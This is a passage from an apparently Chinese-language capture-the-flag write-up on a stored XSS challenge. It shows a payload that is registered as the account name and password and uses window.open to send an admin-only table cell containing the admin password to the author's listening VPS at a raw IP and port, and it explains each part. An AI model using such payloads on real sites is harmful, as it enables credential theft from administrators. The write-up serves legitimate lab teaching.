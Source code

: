 这里还是仅管理员可见

![image-20250423205351783](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232053815.png)

和上题不同的是，这题cookie会立刻失效，不能通过窃取cookie的形式获得flag

 我们来分析一下一原理，我们的payload作为存储型XSS，管理员访问的时候能被我们窃取Cookie，你哈是不是还能窃取到别的东西呢，比如管理员看到的用户名和密码。理论上来说是可以的，所以就直接获取管理员的页面信息

问题在于，我们该如何带出数据？

**方法一：我们可以通过类名查找元素，通过document来获取**

先在vps上面监听端口9023

innerHTML和outerHTML的区别

```
1.innerHTML
从对象的起始位置到终止位置的全部内容，不包括html标签，innerText柯替代innerHTML

2.outerHTML
除了包含innerHTML的全部内容外，还包含标签本身
```

可以看到前端代码中将要显示admin密码的地方类为layui-table-cell laytable-cell-1-0-1

![image-20250423212222717](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232122756.png)

payload： （作为账号密码注册后登录）

```
<script>window.open('http://120.46.41.173:9023/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>
```



解释一下

> window.open('http://120.46.41.173:9023/' + document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML) 这是一个调用 window.open() 函数的语句，用于打开新的浏览器窗口。
>
> 'http://120.46.41.173:9023/' 这是一个字符串，表示要打开的网页的 URL。它包括了协议（http://）、主机名（120.46.41.173）和端口号（9023），以及路径（后面的斜杠 /）。
>
> document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML 这是一系列 DOM 操作，用于获取网页中特定元素的内容。
>
> document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1') 是一个通过类名查找元素的方法。它查找具有类名 'layui-table-cell' 和 'laytable-cell-1-0-1' 的元素，通常这是一种针对表格单元格的选择。
>
> [1] 表示从匹配的元素列表中选择第二个元素（JavaScript 中的数组索引从 0 开始）。
>
> .innerHTML 用于获取选定元素的 HTML 内容，也就是在这个表格单元格中显示的文本或 HTML。
> 

![image-20250423212611169](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232126197.png)
